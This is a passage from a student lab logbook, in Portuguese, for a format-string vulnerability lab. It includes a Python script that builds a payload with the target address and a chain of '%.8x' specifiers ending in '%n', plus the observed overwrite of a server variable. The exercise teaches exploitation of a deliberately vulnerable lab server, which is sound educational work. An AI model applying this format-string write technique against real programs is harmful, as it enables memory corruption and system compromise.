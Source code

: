 ### Task 3: Modifying the Server Program’s Memory

#### Task 3.A: Change the value to a different value

Nesta tarefa, modificamos os primeiros 4 bytes do input, substituindo-os pelo endereço da target variable 0x080e5068, exibido na saída do servidor na etapa anterior ("The target variable's address: 0x080e5068"). Alteramos o último especificador de formato de %x para %n, de modo que o número de caracteres impressos pela função printf seja armazenado no endereço indicado, permitindo alterar o valor da variável para qualquer outro.

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*63 + "\n %n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Compilámos o script build_string.py e enviámos o payload para o servidor:

![Figura 12](/Images/LOGBOOK6/Task3A_image1.png)

Observámos a consola do container para verificar o output da stack. A saída do container confirma que o valor original da variável target (0x11223344) foi alterado para 0x00000202, que corresponde a 514 em decimal. Isso indica que 514 caracteres foram impressos antes de printf processar o último especificador de formato.
